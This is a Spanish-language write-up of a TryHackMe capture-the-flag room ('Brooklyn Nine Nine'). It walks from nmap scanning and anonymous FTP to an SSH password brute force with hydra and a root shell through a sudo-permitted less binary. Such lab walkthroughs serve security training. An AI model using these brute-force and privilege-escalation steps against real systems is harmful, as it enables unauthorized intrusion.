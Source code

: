 ```yaml
---
title: "BroklingNiveNive Writeup - Try-Hack-Me"
date: 2024-01-04
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/Brooklyn.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "BroklingNiveNive banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### namp
```python 
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp   open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1002/tcp filtered windows-icfw
1057/tcp filtered startron
2135/tcp filtered gris
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### puerto 21 ftp abierto y missconfigure con anonymous

###### tenemos un archivo
```pyhton
	From Amy,
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
###### este archivo nos da 3 usuarios 
```python
	Username: Amy
	Username: Jake
	Username: holt
```

### aplicamos fuerza bruta con hydra 
```python
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh
```

![img](/assets/img/imagenes/Pasted image 20231107001617.png)

### ingresamos por ssh con las credenciales que hemos conseguido
![img](/assets/img/imagenes/Pasted image 20231107002238.png)
en la ruta /home/holt podemos conseguir la flag user.txt

### vamos a escalar privilegios
###### buscaremos permisos SUID
```python 
	find / -perm -u=s -type f 2>/dev/null
```
###### podemos ver un direcctorio /usr/bin/less hacemos sudo -l
![img](/assets/img/imagenes/Pasted image 20231107005512.png)

### el usuario jake puede ejecutar todo con lo que quiera con (ALL) /usr/bin/less con el directorio less sin proporcionar contraseña NOPASSWD

```python 
	sudo less /etc/profile
```
###### debido a que podemos ejecutar less como sudo. podemos crear un archivo de texto y seguido de esto podemos decirle
```python
	!/bin/bash
```
### WE ARE ROOT